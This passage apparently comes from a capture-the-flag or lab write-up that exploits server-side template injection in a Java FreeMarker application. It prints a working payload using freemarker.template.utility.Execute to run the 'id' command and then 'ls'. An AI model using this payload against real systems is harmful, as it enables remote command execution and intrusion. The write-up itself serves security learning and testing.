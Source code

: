 In these error we have java free maker error
Try to use payload using this

**Step5:**

Here I found a payload for java free maker
`https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection`

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}`

When we use this we have response

<img src="images/image15.jpg" alt="third" width="500">

Now ls to list 

<img src="images/image16.jpg" alt="third" width="500">
